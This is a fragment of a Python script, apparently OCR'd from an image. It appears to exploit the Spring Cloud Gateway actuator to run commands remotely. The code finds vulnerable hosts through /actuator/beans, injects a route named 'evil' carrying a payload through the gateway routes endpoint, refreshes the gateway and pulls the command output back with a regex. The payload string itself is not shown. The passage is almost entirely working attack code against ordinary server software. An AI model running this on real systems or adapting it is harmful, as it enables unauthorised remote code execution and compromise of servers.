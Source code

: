 ~~~python
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Content-Type': 'application/json'
}
headers2 = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded'
}
# output color
redline = "\033[31m{}\033[0m"


def verify(urls):
    url_verified = []
    for url in urls:

        try:
            res = requests.get(url+"actuator/beans",timeout=2)
            if "org.springframework.boot.actuate" in res.text:
                print(redline.format("[+] " + url + "  exist Spring Cloud Gateway"))
                url_verified.append(url)
            else:
                print("[-] " + url + " not exist Spring Cloud Gateway")

        except:
            print("[-] " + url + " Unable to establish a connection")
    return url_verified

def setroutes(url,payload,evilroute):
    try:
        res =requests.post(url+"actuator/gateway/routes/"+evilroute, headers=headers1, data=payload,timeout=5)
        if (res.status_code==201):
            return 1
        else:
            return 0
    except:
        return 0

def refresh(url):

    try:
        res = requests.post(url+"actuator/gateway/refresh",headers=headers2,timeout=5)
        if (res.status_code==200):
            time.sleep(1)
            return 1
        else:
            return 0
    except:
        return 0

def check(url,evil):
    try:
        re3 = requests.get(url=url + "actuator/gateway/routes/"+evil, headers=headers2,timeout=5)
        s =re.findall(".*Result = '(.*?)']",re3.text)
        if(len(s)<1):
            print(re3.text)
        else:
            print(s[0])
    except:
        return 0

~~~